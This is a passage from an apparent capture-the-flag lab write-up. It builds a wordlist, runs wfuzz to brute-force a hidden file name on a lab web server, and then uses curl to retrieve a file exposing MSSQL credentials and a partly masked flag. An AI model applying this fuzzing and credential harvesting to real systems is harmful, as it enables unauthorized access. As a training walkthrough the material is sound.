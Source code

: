     root@kali# grep "^co" /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt > co_fuzz.txt 
    root@kali# wc -l co_fuzz.txt
    2351 co_fuzz.txt



Now I can `wfuzz`:



    root@kali# wfuzz -c -w co_fuzz.txt -u http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt --hc 404

    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt
    Total requests: 2351

    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================

    000000097:   200        6 L      7 W      142 Ch      "connection"

    Total time: 26.60058
    Processed Requests: 2351
    Filtered Requests: 2350
    Requests/sec.: 88.38152



### File and Flag

Grabbing this file (from either `dev` directory) provides connection
details for MSSQL and the first flag, `Recon`:



    root@kali# curl -s http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db/poo_connection.txt
    SERVER=10.13.38.11
    USERID=external_user
    DBNAME=POO_PUBLIC
    USERPWD=#p00Public3xt3rnalUs3r#

    Flag : POO{fcfb0767************************}



## Huh?!

### Basic MSSQL Enumeration

With the creds from the previous step, I can now connect to the MSSQL
instance on TCP 1433:


